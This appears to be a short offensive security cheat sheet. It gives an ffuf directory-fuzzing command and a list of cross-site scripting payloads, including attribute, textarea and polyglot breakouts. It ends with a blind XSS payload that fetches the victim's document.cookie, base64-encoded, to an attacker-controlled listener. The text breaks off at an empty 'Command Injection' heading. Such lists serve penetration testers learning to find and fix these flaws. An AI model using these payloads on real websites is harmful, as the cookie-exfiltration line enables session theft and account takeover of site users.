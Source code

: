 ``` ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP:PORT>/FUZZ```
### Techniques

* Form Entry
   * 

**Basic payload**: 
```<script>alert('This Is An XSS Script');</script>```

**HTML param payload**:
```"><script>alert('XSS script');</script>```

**Textarea payload**:
```<textarea></textarea></textarea><script>alert('XSS script');</script>```

**Inline script escaping payload**:
```<script> document.getElementsByClassName('name')[0].innerHTML'';alert('XSS script');//';</script>```

**Polyglot XSS payload**:
```jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('Polyglot XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('Polyglot XSS')//>\x3e```

**Image source payload**:

```onload=alert('XSS Alert');```

**Blind XSS payload that calls back to a netcat or http listener on the attacker**

```</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>```

## Command Injection
